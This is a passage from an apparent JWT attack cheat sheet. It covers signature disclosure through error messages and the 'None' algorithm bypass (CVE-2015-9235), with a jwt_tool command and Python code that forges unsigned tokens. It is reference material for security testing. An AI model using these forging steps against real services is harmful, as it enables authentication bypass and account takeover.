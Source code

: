 Send a JWT with an incorrect signature, the endpoint might respond with an error disclosing the correct one.

* [jwt-dotnet/jwt: Critical Security Fix Required: You disclose the correct signature with each SignatureVerificationException... #61](https://github.com/jwt-dotnet/jwt/issues/61)
* [CVE-2019-7644: Security Vulnerability in Auth0-WCF-Service-JWT](https://auth0.com/docs/secure/security-guidance/security-bulletins/cve-2019-7644)

```
Invalid signature. Expected SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c got 9twuPVu9Wj3PBneGw1ctrf3knr7RX12v-UwocfLhXIs
Invalid signature. Expected 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgB1Y= got 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgBOo=
```


### JWT Signature - None algorithm (CVE-2015-9235)

JWT supports a `None` algorithm for signature. This was probably introduced to debug applications. However, this can have a severe impact on the security of the application.

None algorithm variants:
* none 
* None
* NONE
* nOnE

To exploit this vulnerability, you just need to decode the JWT and change the algorithm used for the signature. Then you can submit your new JWT. However, this won't work unless you **remove** the signature

Alternatively you can modify an existing JWT (be careful with the expiration time)

* Using [ticarpi/jwt_tool](#)
    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X a
    ```

* Manually editing the JWT
    ```python
    import jwt

    jwtToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'
    decodedToken = jwt.decode(jwtToken, verify=False)  					

    # decode the token before encoding with type 'None'
    noneEncoded = jwt.encode(decodedToken, key='', algorithm=None)

    print(noneEncoded.decode())
    ```


### JWT Signature - Key Confusion Attack RS256 to HS256 (CVE-2016-5431)
